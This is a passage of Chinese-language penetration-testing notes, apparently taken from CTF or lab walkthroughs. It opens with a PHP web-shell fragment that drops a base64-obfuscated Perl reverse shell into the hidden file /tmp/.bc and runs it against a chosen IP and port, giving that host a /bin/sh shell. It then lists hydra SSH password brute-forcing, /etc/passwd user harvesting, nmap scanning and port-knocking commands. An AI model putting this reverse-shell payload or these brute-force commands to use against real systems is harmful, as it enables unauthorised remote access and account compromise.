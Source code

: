   ```php
  $back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
  "aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
  "hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
  "sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
  "kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
  "KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
  "OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
  cf('/tmp/.bc',$back_connect);
  $res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
  ?> 
  ```
  


- base64解码

  ```bash
  echo 'L25vdGVmb3JraW5nZmlzaC50eHQ=' | base64 -d 
  ```

- strings 命令查看二进制文件中的字符串

  ```bash
  strings XXX
  ```

- sudo 指定用户运行脚本

  ```bash
  sudo -u jens ./backups.sh
  ```

- 切割整理字符串，`grep` 二次过滤、`awk` 切割、`tr` 替换、`sort -u`排序后删除重复行

  ```bash
  cat username_test.list | awk '{print $6}' > password.list
  nmap -p- -sS -n --min-rate=1000 $ip | grep -oE '(^[0-9][^/tcp]*)' | tr '\n' ','
  cat /etc/passwd | grep 'sh\|home' | sort -u
  cat passwd | grep -v -E "nologin|false" | cut -d ":" -f 1 > ssh_user_name
  ```

- `hydra` 爆破

  ```bash
  hydra -L username.list -P password.list ssh://192.168.0.114
  
  hydra -l RickSanchez -P "rick.txt" ssh://192.168.101.70:22222  端口可以指定，服务器可能换了 ssh 的端口，比如这里就换成了 22222
  ```

- knock 敲开端口，用 nc 敲门也行。敲门配置一般设置可能在 `/etc/knockd.conf`，假如可读取便可知道敲门的规则

  ```
  knock 192.168.0.114 7469 8475  9842
  ```
